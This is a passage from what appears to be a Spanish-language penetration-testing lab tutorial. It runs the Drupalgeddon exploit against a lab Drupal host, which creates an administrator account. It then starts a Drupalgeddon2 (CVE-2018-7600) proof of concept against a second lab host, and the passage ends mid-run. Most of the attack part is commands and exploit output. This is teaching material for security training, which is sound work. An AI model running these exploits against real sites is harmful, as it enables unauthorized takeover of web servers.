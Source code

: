 ```python
Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        Insert URL: http[s]://www.victim.com
  -u USERNAME, --username=USERNAME
                        Insert username
  -p PWD, --pwd=PWD     Insert password
```

Aquí vemos que necesitamos proporcionar la URL de destino y un nombre de usuario y contraseña para nuestra nueva cuenta de administrador. Ejecutemos el script y veamos si obtenemos un nuevo usuario administrador.

```python
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
```

Ahora veamos si podemos iniciar sesión como administrador. ¡Podemos! Ahora, desde aquí, podríamos obtener una shell a través de los diversos medios discutidos anteriormente en esta sección.

`http://drupal-qa.inlanefreight.local/user#overlay=admin/people`

![](https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png)

También podríamos usar el módulo Metasploit [exploit/multi/http/drupal_drupageddon](https://www.rapid7.com/db/modules/exploit/multi/http/drupal_drupageddon/) para explotar esto.

---

## Drupalgeddon2

Podemos usar este [PoC](https://www.exploit-db.com/exploits/44448) para confirmar esta vulnerabilidad.

```python
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```
